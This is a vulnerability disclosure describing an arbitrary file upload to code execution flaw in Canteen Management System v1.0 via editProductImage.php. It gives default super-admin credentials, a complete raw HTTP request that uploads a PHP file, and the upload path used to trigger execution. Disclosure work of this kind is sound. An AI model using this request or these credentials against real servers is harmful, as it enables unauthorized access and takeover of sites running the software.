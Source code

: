 # Canteen Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Pengxuan Li

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/youthappam/php_action/editProductImage.php?id=1

Loophole location: Canteen Management System's editProductImage.php file exists arbitrary file upload (RCE)

Request package for file upload:

```sql
POST /youthappam/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/youthappam/edittest.php?id=1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------88582622926272
Content-Length: 422

-----------------------------88582622926272
Content-Disposition: form-data; name="old_image"


-----------------------------88582622926272
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------88582622926272
Content-Disposition: form-data; name="btn"


-----------------------------88582622926272--
```

The files will be uploaded to this directory \youthappam\assets\myimages\

![](https://user-images.githubusercontent.com/54017627/195259698-3fcd7282-3fd9-4a16-b3ac-e4260035f352.png)

We visited the directory of the file in the browser and found that the code had been executed

![](https://user-images.githubusercontent.com/54017627/195259828-72982242-d8b7-4af2-b023-aea7b9a243fc.png)
